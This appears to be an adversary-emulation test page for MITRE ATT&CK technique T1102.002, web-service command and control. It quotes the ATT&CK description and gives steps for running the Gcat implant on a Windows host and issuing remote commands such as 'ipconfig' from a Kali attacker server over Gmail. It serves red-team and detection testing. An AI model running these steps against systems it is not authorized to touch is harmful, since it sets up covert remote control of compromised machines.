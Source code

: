 # T1102.002A - Web Service: Bidirectional Communication
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1102/002/)
<blockquote>Adversaries may use an existing, legitimate external Web service as a means for sending commands to and receiving output from a compromised system over the Web service channel. Compromised systems may leverage popular websites and social media to host command and control (C2) instructions. Those infected systems can then send the output from those commands back over that Web service channel. The return traffic may occur in a variety of ways, depending on the Web service being utilized. For example, the return traffic may take the form of the compromised system posting a comment on a forum, issuing a pull request to development project, updating a document hosted on a Web service, or by sending a Tweet.

Popular websites and social media acting as a mechanism for C2 may give a significant amount of cover due to the likelihood that hosts within a network are already communicating with them prior to a compromise. Using common services, such as those offered by Google or Twitter, makes it easier for adversaries to hide in expected noise. Web service providers commonly use SSL/TLS encryption, giving adversaries an added level of protection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 using gamil - Gcat](#atomic-test-1--- C2--using-gamil-Gcat)

<br/>

## Atomic Test #1 - C2 using gamil - Gcat
C2 using gamil - Gcat

**Supported Platforms:** Windows 

#### Run it with these steps! 
#### 아래 순서대로 진행
클라이언트 
1. Open cmd.exe 
2. cd <implant.py 위치>
3. implant.py

공격자 서버
4. cd /home/kali/Desktop/gcat/gcat-master
5. python gcat.py -list     
6. python gcat.py -id <id> -cmd 'ipconfig'
7. python gcat.py -id <id> -jobid <jobid> 
8. 이메일에서 결과 확인 (gcat.py, implant.py에 id/pw 존재)

<br/>
